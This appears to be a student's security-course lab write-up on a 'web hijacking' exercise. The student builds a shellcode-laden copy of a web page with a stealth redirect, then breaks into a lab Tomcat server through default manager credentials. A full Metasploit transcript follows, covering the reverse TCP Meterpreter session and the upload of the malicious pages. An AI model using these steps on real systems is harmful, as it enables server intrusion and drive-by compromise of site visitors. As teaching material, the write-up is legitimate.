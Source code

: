 # Project 2: Web Hijacking

## Goal
You come across a very popular website visited by many people every day. Your task is to hijack as many of the visitors’ devices as you can.

Many of the people who visit this website are still running Windows XP SP2 and use Internet Explorer (IE) for browsing.

You must be able to compromise the machines of anyone who visits this website using XP SP2 (like the provided VM). For the purpose of this assignment, your shell needs to be returned to a C&C server at 10.247.49.159, at a port number assigned to you

You must do this as stealthily as possible, i.e., the person visiting the website must not suspect that there is something fishy going on. This ensures that you pwn the maximum number of devices before being discovered.


## Steps I took to accomplish the task:

### Crafting the HTML file:
1.	I obtained the source code of the Practical Cybersecurity Class web page.
2.	I generated shellcode for the proof of concept html file.
3.	I manually merged the source code with the proof of concept html file and called it index2.html
4.	I put index2.html on a directory and used Python's simple web server to serve the file.
5.	I verified it worked by visiting index2.html from the Windows XP virtual machine.
6.	I noticed that, although the exploit worked, the page content was never loaded; the browser displayed just a blank page. To solve this, I created an index1.html that does not have malicious code but has a redirect to index2.html. This way, the correct content will be displayed before the malicious code in index2.html executes.
7.	I changed the shellcode of index2.html to use the IP 10.247.49.159  and the port 5037.

### Breaking into the server:
1.	I ran a Nessus Scan web application scan that discovered that port 8080 was open for Apache Tomcat and that the Tomcat's manager had the default credentials.
2.	I played with the Apache Tomcat's manager and I noticed that it allowed the uploading of WAR files.
3.	I searched the web for vulnerabilities in Apache Tomcat's manager and found the name of a Metasploit module that exploits the uploading of WAR files.
4.	I used the following options with the Metasploit module:
msf exploit(tomcat_mgr_upload) > set httppassword tomcat
httppassword => tomcat
msf exploit(tomcat_mgr_upload) > set httpusername tomcat
httpusername => tomcat
msf exploit(tomcat_mgr_upload) > set rhost 10.247.49.211
rhost => 10.247.49.211
msf exploit(tomcat_mgr_upload) > set rport 8080
rport => 8080
msf exploit(tomcat_mgr_upload) > set targeturi /manager
targeturi => /manager
msf exploit(tomcat_mgr_upload) > set vhost 10.247.49.211
vhost => 10.247.49.211
5.	I ran the exploit and used the reverse TCP connection to edit index.html with the redirect to index2.html, which I uploaded afterward.

This were the steps I followed in Metasploit:
```
msf exploit(tomcat_mgr_deploy) > use exploit/multi/http/tomcat_mgr_upload
msf exploit(tomcat_mgr_upload) > show options

Module options (exploit/multi/http/tomcat_mgr_upload):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword                   no        The password for the specified username
   HttpUsername                   no        The username to authenticate as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                          yes       The target address
   RPORT         80               yes       The target port (TCP)
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /manager         yes       The URI path of the manager app (/html/upload and /undeploy will be used)
   VHOST                          no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Java Universal


msf exploit(tomcat_mgr_upload) > set httppassword tomcat
httppassword => tomcat
msf exploit(tomcat_mgr_upload) > set httpusername tomcat
httpusername => tomcat
msf exploit(tomcat_mgr_upload) > set rhost 10.247.49.211
rhost => 10.247.49.211
msf exploit(tomcat_mgr_upload) > set rport 8080
rport => 8080
msf exploit(tomcat_mgr_upload) > set targeturi /manager/html
targeturi => /manager/html
msf exploit(tomcat_mgr_upload) > set vhost 10.247.49.211
vhost => 10.247.49.211
msf exploit(tomcat_mgr_upload) > show options

Module options (exploit/multi/http/tomcat_mgr_upload):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  tomcat           no        The password for the specified username
   HttpUsername  tomcat           no        The username to authenticate as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST         10.247.49.211    yes       The target address
   RPORT         8080             yes       The target port (TCP)
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /manager/html    yes       The URI path of the manager app (/html/upload and /undeploy will be used)
   VHOST         10.247.49.211    no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Java Universal


msf exploit(tomcat_mgr_upload) > set targeturi /manager
targeturi => /manager
msf exploit(tomcat_mgr_upload) > exploit

[*] Started reverse TCP handler on 10.247.49.127:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying FSKTK4Z...
[*] Executing FSKTK4Z...
[*] Undeploying FSKTK4Z ...
[*] Sending stage (51184 bytes) to 10.247.49.211
[*] Meterpreter session 1 opened (10.247.49.127:4444 -> 10.247.49.211:60104) at 2018-03-29 22:57:34 -0400

meterpreter > ls
Listing: /var/lib/tomcat7
=========================

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40776/rwxrwxrw-  4096  dir   2018-03-21 10:59:15 -0400  common
40776/rwxrwxrw-  4096  dir   2018-03-21 11:14:34 -0400  conf
40776/rwxrwxrw-  4096  dir   2018-03-29 16:57:32 -0400  logs
40776/rwxrwxrw-  4096  dir   2018-03-21 10:59:15 -0400  server
40776/rwxrwxrw-  4096  dir   2018-03-21 10:59:15 -0400  shared
40776/rwxrwxrw-  4096  dir   2018-03-29 17:50:45 -0400  webapps
40776/rwxrwxrw-  4096  dir   2018-03-21 10:59:18 -0400  work

meterpreter > cd ..
meterpreter > ls
Listing: /var/lib
=================

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40776/rwxrwxrw-  4096  dir   2018-03-21 09:58:21 -0400  AccountsService
40776/rwxrwxrw-  4096  dir   2018-03-21 12:08:41 -0400  apache2
40776/rwxrwxrw-  4096  dir   2018-03-21 09:58:28 -0400  apparmor
40776/rwxrwxrw-  4096  dir   2018-03-22 06:20:19 -0400  apt
40776/rwxrwxrw-  4096  dir   2018-03-21 09:59:02 -0400  aspell
40776/rwxrwxrw-  4096  dir   2018-03-21 09:58:23 -0400  dbus
40776/rwxrwxrw-  4096  dir   2018-03-21 09:59:42 -0400  dhcp
40776/rwxrwxrw-  4096  dir   2018-03-21 09:59:02 -0400  dictionaries-common
40776/rwxrwxrw-  4096  dir   2018-03-21 12:08:43 -0400  dpkg
40776/rwxrwxrw-  4096  dir   2018-03-21 09:59:02 -0400  emacsen-common
40776/rwxrwxrw-  4096  dir   2017-10-04 14:22:54 -0400  git
40776/rwxrwxrw-  4096  dir   2018-03-21 09:57:46 -0400  initramfs-tools
40776/rwxrwxrw-  4096  dir   2016-02-05 04:48:45 -0500  initscripts
40776/rwxrwxrw-  4096  dir   2016-02-05 04:48:45 -0500  insserv
40776/rwxrwxrw-  4096  dir   2018-03-21 09:59:02 -0400  ispell
40776/rwxrwxrw-  4096  dir   2018-03-21 09:58:46 -0400  locales
40776/rwxrwxrw-  4096  dir   2018-03-29 09:25:01 -0400  logrotate
40776/rwxrwxrw-  4096  dir   2018-03-21 09:58:32 -0400  man-db
40776/rwxrwxrw-  4096  dir   2016-04-12 16:14:23 -0400  misc
40776/rwxrwxrw-  4096  dir   2018-03-29 09:25:01 -0400  mlocate
40776/rwxrwxrw-  4096  dir   2018-03-21 10:59:12 -0400  nssdb
40776/rwxrwxrw-  4096  dir   2017-02-03 11:49:55 -0500  os-prober
40776/rwxrwxrw-  4096  dir   2018-03-21 09:58:38 -0400  pam
40776/rwxrwxrw-  4096  dir   2016-05-10 13:56:02 -0400  plymouth
40776/rwxrwxrw-  4096  dir   2018-03-21 09:57:07 -0400  python
40776/rwxrwxrw-  4096  dir   2018-03-21 09:57:07 -0400  resolvconf
40776/rwxrwxrw-  4096  dir   2018-03-21 09:58:24 -0400  sgml-base
40776/rwxrwxrw-  4096  dir   2018-03-21 09:57:07 -0400  sudo
40776/rwxrwxrw-  4096  dir   2018-03-21 09:59:43 -0400  systemd
40776/rwxrwxrw-  4096  dir   2018-03-21 10:59:15 -0400  tomcat7
40776/rwxrwxrw-  4096  dir   2018-03-21 10:03:42 -0400  ubuntu-release-upgrader
40776/rwxrwxrw-  4096  dir   2018-03-21 11:02:18 -0400  ucf
40776/rwxrwxrw-  4096  dir   2018-03-21 10:03:45 -0400  update-manager
40776/rwxrwxrw-  4096  dir   2017-07-18 19:29:55 -0400  update-notifier
40776/rwxrwxrw-  4096  dir   2015-03-06 09:51:26 -0500  update-rc.d
40776/rwxrwxrw-  4096  dir   2018-03-21 09:59:32 -0400  urandom
40776/rwxrwxrw-  4096  dir   2018-03-21 09:57:07 -0400  ureadahead
40776/rwxrwxrw-  4096  dir   2018-03-21 09:57:59 -0400  usbutils
40776/rwxrwxrw-  4096  dir   2018-03-21 09:57:07 -0400  vim
40776/rwxrwxrw-  4096  dir   2018-03-21 09:58:24 -0400  xml-core

meterpreter > cd ..
meterpreter > cd www
meterpreter > cd html
meterpreter > ls
Listing: /var/www/html
======================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100776/rwxrwxrw-  578    fil   2018-03-21 14:44:48 -0400  index.html
100666/rw-rw-rw-  58127  fil   2018-03-21 12:11:50 -0400  simon.jpg

meterpreter > upload /root/Desktop/index2.html
[*] uploading  : /root/Desktop/index2.html -> index2.html
[*] uploaded   : /root/Desktop/index2.html -> index2.html
meterpreter > upload /root/Desktop/index.html
[*] uploading  : /root/Desktop/index.html -> index.html
[*] uploaded   : /root/Desktop/index.html -> index.html
meterpreter > ls
Listing: /var/www/html
======================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100776/rwxrwxrw-  673    fil   2018-03-29 17:57:59 -0400  index.html
100666/rw-rw-rw-  2621   fil   2018-03-29 17:57:27 -0400  index2.html
100666/rw-rw-rw-  58127  fil   2018-03-21 12:11:50 -0400  simon.jpg

meterpreter > quit
[*] Shutting down Meterpreter...

[*] 10.247.49.211 - Meterpreter session 1 closed.  Reason: User exit
msf exploit(tomcat_mgr_upload) > 
```